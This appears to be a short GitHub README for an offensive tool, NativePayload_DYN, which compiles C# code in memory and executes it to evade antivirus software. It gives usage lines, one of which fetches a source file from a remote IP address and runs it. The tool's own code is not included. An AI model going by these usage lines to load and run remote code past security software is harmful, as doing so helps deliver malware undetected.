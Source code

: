 # NativePayload_DYN

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in Jun 2017 and Published in 2023 ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 


usage:
      
    NativePayload_DYN.exe -f "class1.cs"
    NativePayload_DYN.exe -w "http://192.168.56.10/class1.cs"
